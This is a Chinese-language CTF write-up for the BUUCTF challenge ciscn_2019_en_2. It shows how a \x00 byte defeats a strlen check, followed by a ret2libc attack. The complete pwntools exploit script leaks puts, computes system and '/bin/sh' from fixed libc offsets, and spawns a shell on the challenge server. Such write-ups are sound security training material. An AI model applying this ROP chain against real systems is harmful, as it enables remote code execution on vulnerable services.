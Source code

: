 ### Strlen 绕过泄露 Libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a71c17d0e0a243d4fd093a.png)

反编译文件，首先排除 3，因为它直接退出了

![](https://pic1.imgdb.cn/item/67a71d13d0e0a243d4fd0968.png)

如果不是 2 则调用 begin，去看看 begin 发现给了三个选择

![](https://pic1.imgdb.cn/item/67a71d41d0e0a243d4fd097a.png)

下面还有个不是 1 的判断，多调用了一个 encrypt，看来要输入 2

进去直接给出了 gets，左门 plt 表中有 puts，没有后门函数及字符串，看来要先泄露 libs

但是 strlen 函数在一个死循环里面，它会修改我们数据，得 \x00 截断绕过

然后通过 puts 打印出 puts 实际在 libc 中的地址

![](https://pic1.imgdb.cn/item/67a71d90d0e0a243d4fd098d.png)

查看缓冲区大小

![](https://pic1.imgdb.cn/item/67a71de2d0e0a243d4fd09ba.png)

先获取 pop rdi 及 ret 地址

![](https://pic1.imgdb.cn/item/67a71c07d0e0a243d4fd0938.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',26156)

elf = ELF('./ciscn_2019_en_2')
pop_rdi = 0x400c83
ret = 0x4006b9
code = 0x4009a0
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']

p.recvuntil('choice!\n')
p.sendline(str(1))
p.recvuntil('encrypted\n')

payload = b'\x00' + b'a' * 0x57 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(code)
p.sendline(payload)
p.recvuntil('Ciphertext\n\n')

puts_add = u64(p.recv(6).ljust(8,b'\x00'))

system = puts_add - 0x31580
binsh = puts_add + 0x1334da

p.recvuntil('encrypted\n')

payload = b'\x00' + b'a' * 0x57 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a71e9bd0e0a243d4fd0a03.png)

